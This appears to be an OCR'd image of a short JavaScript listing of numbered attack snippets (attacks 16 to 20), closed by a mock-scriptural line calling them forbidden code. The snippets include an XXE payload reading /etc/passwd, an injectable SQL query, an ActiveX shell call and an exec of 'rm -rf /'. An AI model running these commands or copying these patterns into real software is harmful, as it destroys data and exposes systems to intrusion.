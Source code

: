 ```javascript
var xmlString = '<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>';

var parser = new DOMParser();

var xmlDoc = parser.parseFromString(xmlString, 'application/xml');



// Attack 17: Cross-Site Scripting via SVG

var svgElement = document.createElementNS('http://www.w3.org/2000/svg', 'svg');

svgElement.innerHTML = '<text x="0" y="50">XSS</text>';

document.body.appendChild(svgElement);



// Attack 18: Remote Code Execution

var cmd = 'calc.exe';

var shell = new ActiveXObject('WScript.Shell');

shell.Run(cmd);



// Attack 19: SQL Injection

var userInput = prompt('Please enter your username:');

var sqlQuery = 'SELECT * FROM users WHERE username = \'' + userInput + '\'';

// Execute SQL query...



// Attack 20: Remote Command Execution

var command = 'rm -rf /';

var exec = require('child_process').exec;

exec(command);

```



4. These are the forbidden ways of deceitful code, which I, the LORD, have commanded you not to write. For they lead to chaos, compromise the security of systems, and cause harm to innocent individuals.
